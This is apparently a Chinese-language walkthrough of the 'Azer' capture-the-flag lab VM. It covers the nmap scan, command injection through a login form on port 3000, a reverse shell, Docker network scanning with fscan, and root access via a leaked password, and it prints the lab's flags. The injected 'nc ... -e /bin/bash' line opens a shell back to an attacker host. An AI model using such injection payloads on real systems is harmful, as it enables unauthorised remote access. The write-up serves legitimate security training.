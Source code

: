 # Azer

:::note

[Linux VM] [Tested on VirtualBox and VMWare.] created by || tasiyanci

⏲️ Release Date // 2024-02-24

✔️ MD5 // 467223b33d6d8150a50b206401236da7

☠ Root // 2

💀 User // 10

📝Notes //
My birthday gift to community.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.120
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.120
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: L&#214;SEV | L&#246;semili &#199;ocuklar Vakf\xC4\xB1
|_http-server-header: Apache/2.4.57 (Debian)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Login Page
```

## web 服务 Port-80

尝试进行目录扫描，但是未得到有价值信息

## web 服务 Port-3000

发现一个登录框，首先先简单尝试一下

```plaintext
a:a
Error executing bash script: Command failed: /home/azer/get.sh a a fatal: not a git repository (or any of the parent directories): .git
```

看到了疑似有脚本执行的部分，尝试执行命令注入执行反向 shell

```bash
nc 192.168.56.102 9999 -e /bin/bash : nc 192.168.56.102 9999 -e /bin/bash
```

成功得到回连的 shell

## User - azer

```bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[15:35:38] Welcome to pwncat 🐈!
[15:45:41] received connection from 192.168.56.120:46168
[15:45:42] 192.168.56.120:46168: registered new host w/ db
(local) pwncat$ back
(remote) azer@azer:/home/azer$ whoami
azer
```

### flag - user

```plaintext
0d2856d69dc348b3af80a0eed67c7502
```

### 环境探测

尝试使用 `PEASS-ng` 执行自动化探测

发现以下高价值信息

```plaintext
                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
/usr/bin/docker
/usr/bin/runc
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... No
═╣ Any running containers? ........ No

╔══════════╣ Interfaces
default         0.0.0.0
loopback        127.0.0.0
link-local      169.254.0.0

br-333bcb432cd5: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.1  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::42:77ff:fe23:89eb  prefixlen 64  scopeid 0x20<link>
        ether 02:42:77:23:89:eb  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 800 (800.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:b6:c5:b2:49  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.120  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::a00:27ff:fe04:638a  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:04:63:8a  txqueuelen 1000  (Ethernet)
        RX packets 13943  bytes 1776686 (1.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24705  bytes 36362126 (34.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethf99cdf9: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::5437:acff:fec2:3a19  prefixlen 64  scopeid 0x20<link>
        ether 56:37:ac:c2:3a:19  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1680 (1.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

可知靶机上存在 Docker 环境，但是由于权限限制，没有办法执行 `docker ps` 查看目前执行的容器信息

已知 docker 相关的网桥地址有

```plaintext
10.10.10.1
172.17.0.1
```

### 发现 Docker 容器服务

直接借助 [shadow1ng/fscan: 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。](https://github.com/shadow1ng/fscan) 对 Docker 网桥进行扫描

```bash
(remote) azer@azer:/home/azer$ ./fscan -np -h 10.10.10.1/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
10.10.10.10:80 open
10.10.10.1:80 open
10.10.10.1:3000 open
```

可以发现除了本机以外，还有 `10.10.10.10:80` 这个服务存在

尝试访问

```bash
(remote) azer@azer:/home/azer$ curl 10.10.10.10:80
.:.AzerBulbul.:.
```

所得到的就是 root 用户的密码

## User - root

```bash
(remote) azer@azer:/home/azer$ su root
Password:
root@azer:/home/azer# whoami
root
```

### flag - root

```bash
root@azer:~# cat root.txt
b5d96aec2d5f1541c5e7910ccab527d8
```
